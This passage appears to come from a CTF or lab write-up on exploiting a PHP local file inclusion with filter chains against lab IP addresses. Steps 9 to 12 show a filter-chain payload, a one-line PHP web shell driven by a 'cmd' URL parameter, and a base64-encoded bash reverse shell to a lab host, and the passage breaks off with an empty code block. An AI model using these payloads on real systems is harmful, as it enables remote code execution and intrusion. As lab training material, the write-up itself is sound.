 9. After I tried all to manually chain all the possible PHP wrappers, I found a tool for the job, a great resource PHP filter chain generator: https://github.com/synacktiv/php_filter_chain_generator
10. With the tool set up and in place I have generated first POC, a simple PHP script`<?php phpinfo(); ?>` transformed with the tool like `python3 php_filter_chain.py --chain '<?php phpinfo(); ?>  '` and the output I appended as a value to my vulnerable URL parameter (no need to display the entire string)
```sh
http://10.10.7.200/secret-script.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|[...]
```
11. Now we need a way to run commands, and for this we can use a simple PHP script and run it with the parameter. Using the same technique as before I have converted the simple PHP file ```<?=`$_GET[cmd]`?>``` and run it with `cmd` parameter in URL like:
```sh
http://10.10.93.52/secret-script.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.[....]&cmd=whoami
```
12. Now we have in place a method to run commands, next step will be to get a reverse shell. For this we can use a simple shell like `bash -i >& /dev/tcp/10.11.79.193/4455 0>&1` but because when I tried to add it as a value of `cmd` parameter in URL conflicted because of special chars, we need to first encode the payload and use a command to decode on the server and run it `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS43OS4xOTMvNDQ1NSAwPiYx|base64 -d|bash` and than URL encode it resulting in a URL like:
```sh
```